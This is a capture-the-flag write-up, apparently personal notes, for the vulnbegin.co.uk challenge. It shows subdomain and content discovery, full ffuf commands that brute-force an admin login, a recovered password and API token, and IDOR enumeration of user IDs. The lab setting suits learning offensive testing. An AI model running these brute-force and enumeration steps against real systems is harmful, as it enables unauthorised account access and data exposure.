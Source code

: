 1. [x] Subdomain Discovery
	**cmd**: ``
	1. Using `dnsrecon`
		1. www.vulnbegin.co.uk
		2. server.vulnbegin.co.uk *(has a flag and says `Unauthenticated`)*![[Pasted image 20220527021257.png]]
	2. Searching on [crt.sh](https://crt.sh/?q=vulnbegin.co.uk)
		1. v64hss83.vulnbegin.co.uk *(has a flag)*
2. [x] Content Discovery
	1. Using `ffuf`
		1. /cpadmin/
		2. /js/
		3. /css/
		4. /robots.txt/
	2. From `/robots.txt`
		1. /secret_d1rect0y/ *(contains a flag)*
3. [x] Bruteforcing `/cpadmin` using `ffuf`
	**cmd**: `ffuf -w ~/wordlists/usernames.txt -X POST -d "username=FUZZ&password=x" -t 1 -p 0.1 -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSjRZM3A2TTNKMmR5SXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJhYmYwNzRmYWI0Yzk2YjA3OTM4ZDcxNGQ0N2VhZWIzNSJ9" -H "Content-Type: application/x-www-form-urlencoded" -u http://www.vulnbegin.co.uk -fr 'Username is invalid'`
	1. Found `admin` valid
	2. Bruteforced the password and found `159753` working
4. [x] Found that there is an API key and a config file somewhere in the server, so we need a 2nd round of content discovery **with the token we had after logging into the admin account**![[Pasted image 20220527012943.png]]
	**cmd**: `ffuf -w ~/wordlists/content.txt -t 1 -p 0.1 -H "Cookie: token=2eff535bd75e77b62c70ba1e4dcb2873; ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSjRZM3A2TTNKMmR5SXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJhYmYwNzRmYWI0Yzk2YjA3OTM4ZDcxNGQ0N2VhZWIzNSJ9" -u http://www.vulnbegin.co.uk/cpadmin/FUZZ -mc all -fc 404`
5. [x] Found `/env` and now investigating it. Found an API token `X-Token: 492E64385D3779BC5F040E2B19D67742`
6. [x] Recon the [API](http://server.vulnbegin.co.uk)with the *token* we found.
	1. Content discovery round 3 *to the API*.
		**cmd**: ``
	2. Found `/robot.txt` that has `Disallow: /s3cr3T_d1r3ct0rY/`![[Pasted image 20220527024741.png]]
	3. Found `/user`![[Pasted image 20220527024821.png]]
	4. Found `/user/27/info` that has a flag
7. [x] Possible IDOR? Search the space of user IDs.
	**cmd**: `seq 1 100 | ffuf -w - -t 1 -p 0.1 -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSjRZM3A2TTNKMmR5SXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJhYmYwNzRmYWI0Yzk2YjA3OTM4ZDcxNGQ0N2VhZWIzNSJ9" -u http://server.vulnbegin.co.uk/user/FUZZ -mc all -fc 404`![[Pasted image 20220527025659.png]]
	1. Tried accessing the endpoint of user 5 but it's forbidden.![[Pasted image 20220527030229.png]]
	2. Tried accessing the other endpoint `/5/info` the was previously found. ![[Pasted image 20220527030312.png]] Then got the last flag.
